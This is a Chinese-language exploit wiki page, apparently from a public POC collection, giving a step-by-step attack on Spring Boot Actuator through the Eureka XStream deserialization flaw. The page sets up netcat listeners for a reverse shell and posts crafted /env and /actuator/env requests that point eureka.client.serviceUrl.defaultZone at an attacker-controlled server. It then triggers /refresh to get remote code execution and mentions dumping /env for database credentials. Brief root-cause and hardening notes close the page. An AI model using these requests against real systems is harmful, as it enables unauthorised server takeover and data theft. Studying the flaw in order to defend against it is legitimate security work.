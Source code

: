 # eureka xstream deserialization RCE

## 利用条件：

 - 可以 POST 请求目标网站的 /env 接口设置属性
 - 可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
 - 目标使用的 eureka-client < 1.8.7（通常包含在 spring-cloud-starter-netflix-eureka-client 依赖中）
 - 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

## 利用方法：

### 步骤一：架设响应恶意 XStream payload 的网站

使用 python3 在自己控制的服务器上运行[脚本](https://github.com/7estUser/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/Actuator(eureka%20xstream%20deserialization%20RCE)/file/example.py)，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。


### 步骤二：nc 监听反弹 shell 的端口

```bash
nc -lvnp 8446
```

### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性

访问`/env`端点，抓包将get请求改为post请求，post内容为：

`eureka.client.serviceUrl.defaultZone=http://<yourvpsip>:2222/example`

spring 1.x

```bash
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://<yourvpsip>:2222/example
```
spring 2.x

```bash
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://<yourvpsip>:2222/example"}
```

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/Actuator(eureka%20xstream%20deserialization%20RCE)/img/refreh.jpg)

### 步骤四：刷新配置

spring 1.x

```bash
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```bash
POST /actuator/refresh
Content-Type: application/json
```

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/Actuator(eureka%20xstream%20deserialization%20RCE)/img/request.jpg)

### 步骤五：服务器接收到shell，并且能成功执行命令

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```

> ⚠️ 同时访问/env端点获取全部环境属性，由于 actuator 会监控站点 mysql、mangodb 之类的数据库服务，所以通过监控信息有时可以展示mysql、mangodb 数据库信息.

## 漏洞原理：

1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

## 漏洞分析：

 - Actuator是Spring Boot提供的服务监控和管理中间件，默认配置会出现接口未授权访问，部分接口会泄露网站流量信息和内存信息等，使用Jolokia库特性甚至可以远程执行任意代码，获取服务器权限
 - XStream：XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。
 - /env端点配置不当造成RCE

## 漏洞修复

### 一 禁用所有接口：

`endpoints.enabled = false`

### 二 pom.xml文件引入spring-boot-starter-security依赖：

```bash
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
</dependency>
```

### 三 开启security功能，配置访问权限验证，类似配置如下：

```bash
management.port=8099
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxxx
```